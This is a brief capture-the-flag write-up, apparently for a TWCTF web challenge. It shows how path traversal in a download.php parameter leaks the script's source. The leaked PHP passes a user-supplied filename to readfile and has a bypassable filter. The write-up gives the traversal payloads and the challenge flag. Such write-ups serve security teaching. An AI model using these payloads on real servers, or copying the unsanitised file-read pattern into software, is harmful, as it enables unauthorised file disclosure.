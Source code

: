 Vulnerability : download.php?f=951470281beb8a490a941ac73bd10953

1- Download "download.php" 
download.php?f=../download.php

// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");

2- Read "file_list.php" 

download.php?f=file_list../../file_list.php


